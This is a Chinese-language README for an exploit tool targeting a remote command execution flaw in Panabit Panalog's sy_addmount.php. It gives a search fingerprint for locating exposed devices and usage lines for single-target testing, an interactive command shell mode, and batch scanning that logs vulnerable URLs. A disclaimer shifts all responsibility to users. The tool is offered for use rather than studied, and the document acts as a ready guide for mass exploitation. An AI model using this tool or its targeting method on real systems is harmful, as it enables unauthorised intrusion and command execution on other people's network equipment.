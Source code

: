 # Panabit sy_addmount.php 远程命令执行

Panabit Panalog sy_addmount.php过滤不足，可远程执行系统命令

## 指纹

body="Maintain/cloud_index.php"

## 工具利用

python3 Panabit_sy_addmount.php_rce.py -u http://127.0.0.1:1111 单个url测试

python3 Panabit_sy_addmount.php_rce.py -c http://127.0.0.1:1111 cmdshell模式
![exp](./exp.jpg)

python3 Panabit_sy_addmount.php_rce.py -f url.txt 批量检测 

扫描会自动保存存在漏洞的url到vuln.txt
![poc](./poc.jpg)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

